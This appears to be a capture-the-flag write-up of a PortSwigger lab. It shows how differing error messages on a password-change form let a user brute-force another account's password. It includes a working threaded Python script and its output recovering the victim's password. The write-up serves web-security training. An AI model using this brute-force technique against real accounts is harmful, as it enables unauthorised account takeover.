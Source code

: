 # Password brute-force via password change | Dec 22, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-brute-force-via-password-change), you'll learn: Password brute-force via password change! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab's password change functionality makes it vulnerable to brute-force attacks. To solve the lab, use the list of candidate passwords to brute-force Carlos's account and access his "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

## Exploitation

**Login page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-12/images/Pasted%20image%2020221222061644.png)

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-12/images/Pasted%20image%2020221222061657.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-12/images/Pasted%20image%2020221222061706.png)

In here, we can change user's password.

**Let's try to update our password and intercept the request via Burp Suite:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-12/images/Pasted%20image%2020221222061804.png)

When we clicked the `Change password` button, it'll send a POST request to `/my-account/change-password`, with parameter **`username`, `current-password`**, `new-password-1`, and `new-password-2`.

Let's drop that request and test one thing.

**What if I entered an incorrect current password?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-12/images/Pasted%20image%2020221222062402.png)

If the current password is incorrect, it'll redirect me to `/login`.

Also, the change password function has a parameter called `username`.

**What if I change that parameter to `carlos`?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-12/images/Pasted%20image%2020221222062541.png)

Still the same.

**Now, what if the current password and confirm new password are incorrect?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-12/images/Pasted%20image%2020221222063542.png)

It displays `Current password is incorrect`.

**Then what if the current password is correct, and confirm new password is incorrect?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-12/images/Pasted%20image%2020221222063736.png)

It displays `New passwords do not match`.

**Armed with above information, we can brute force `carlos`'s password via a python script:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def fetchPassword(filename):
    listPassword = list()

    with open(filename) as fd:
        for line in fd:
            listPassword.append(line.strip())

    return listPassword

def sendRequest(url, cookie, password):
    loginData = {
        'username': 'carlos',
        'current-password': password,
        'new-password-1': 'fakepassword',
        'new-password-2': 'fakefakepassword'
    }

    loginRequestText = requests.post(url, cookies=cookie, data=loginData).text

    if 'New passwords do not match' in loginRequestText:
        print(f'[+] Found password: {password}')

def main():
    url = 'https://0abf002404a8267cc24aa2710069002f.web-security-academy.net/my-account/change-password'
    cookie = {
        'session': 'vGQDEH6spu3GS37ZaaFrD05G1hdB1Vo1',
        'session': 'MTTOtDOjdJHZRfxAtEgbVh7LiiSnLcqJ'
    }

    passwordFileName = './auth_password.txt'
    listPassword = fetchPassword(passwordFileName)
    
    for password in listPassword:
        thread = Thread(target=sendRequest, args=(url, cookie, password))
        thread.start()
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# python3 enum_password_changepassword.py
[+] Found password: monkey
```

- Found `carlos`'s password: `monkey`

Let's login as user `carlos`!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-12/images/Pasted%20image%2020221222064447.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-12/images/Pasted%20image%2020221222064455.png)

I'm user `carlos`!

# What we've learned:

1. Password brute-force via password change